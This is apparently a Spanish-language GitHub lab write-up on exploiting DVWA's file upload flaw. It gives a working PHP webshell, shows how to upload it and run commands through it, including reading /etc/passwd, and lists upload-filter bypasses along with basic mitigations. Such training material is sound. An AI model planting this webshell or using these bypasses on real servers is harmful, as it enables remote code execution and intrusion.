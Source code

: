 # 📂 File Upload Exploitation – DVWA

## 📌 Introducción

La vulnerabilidad de **File Upload** ocurre cuando una aplicación web permite que un usuario suba ficheros sin validaciones correctas sobre su contenido o extensión.  
Un atacante puede aprovechar esto para subir archivos maliciosos (por ejemplo, una **webshell en PHP**) y obtener ejecución remota de comandos en el servidor.  

En entornos reales, esta vulnerabilidad puede llevar a **RCE (Remote Code Execution)** si no existen medidas de seguridad adecuadas.  

---

## 🧪 Entorno de práctica

- **Plataforma:** Damn Vulnerable Web Application (DVWA)  
- **Nivel de seguridad:** `Low`  
- **URL vulnerable:** http://127.0.0.1:8080/vulnerabilities/upload/

---

## 🔎 Paso 1 – Acceso a la funcionalidad

1. Accedemos a la sección `File Upload` desde el menú de DVWA.  
2. En nivel **Low**, la aplicación debería permitir subir cualquier tipo de archivo sin filtrar.  

<img width="534" height="380" alt="imagen" src="https://github.com/user-attachments/assets/4395cb18-0bd0-420f-a48b-41e194dd53ab" />


---

## 🛠 Paso 2 – Preparar un archivo malicioso

Creamos un archivo en Kali con una **webshell simple en PHP**:

```php
<?php
if(isset($_GET['cmd'])) {
  system($_GET['cmd']);
}
?>
```

Lo guardamos como: shell.php

## 📤 Paso 3 – Subir el archivo

1. Seleccionamos shell.php en el formulario de subida.
2. DVWA lo moverá a la carpeta de cargas:

Vemos que la shell.php fue subida correctamente:

<img width="503" height="239" alt="imagen" src="https://github.com/user-attachments/assets/6ac55bf0-f8c0-4186-a4ad-3bc10d98bf73" />

```swift
/dvwa/hackable/uploads/
```

Si la subida es exitosa, deberíamos ver un mensaje indicando el archivo disponible.

## 🔗 Paso 4 – Acceder a la webshell

Navegamos a la URL del archivo subido:

```ruby
http://127.0.0.1:8080/hackable/uploads/shell.php
```

Y probamos a ejecutar un comando:

```bash
http://127.0.0.1:8080/hackable/uploads/shell.php?cmd=whoami
```

Y vemos como nos devuelve la información de usuario:

<img width="739" height="167" alt="imagen" src="https://github.com/user-attachments/assets/74dfbaf4-a068-43a4-8340-e720e625cfd5" />


## ⚙️ Paso 5 – Probar más comandos

Ejemplos de comandos útiles:

```bash
?cmd=id
?cmd=uname -a
?cmd=ls -la
?cmd=cat /etc/passwd
```

Con esto podemos verificar la extensión del acceso obtenido.

## 📚 Notas adicionales

- En Medium y High, DVWA introduce validaciones como comprobar la extensión o MIME type.
- Bypass comunes:
  - Extensiones dobles (shell.php.jpg).
  - Mayúsculas/minúsculas (shell.PhP).
  - Subida de archivos .htaccess para interpretar .jpg como PHP.
- En entornos reales, hay protecciones adicionales como:
  - Filtrado de contenido.
  - Reescritura de nombres de archivos.
  - Almacenamiento en directorios no ejecutables.
 
## ✅ Conclusiones

- En nivel Low DVWA, la subida de ficheros es directa y nos permite ejecutar código PHP en el servidor.
- Hemos comprobado la vulnerabilidad con una webshell básica.
- En escenarios reales, esta vulnerabilidad puede otorgar control total del servidor si no está mitigada correctamente.
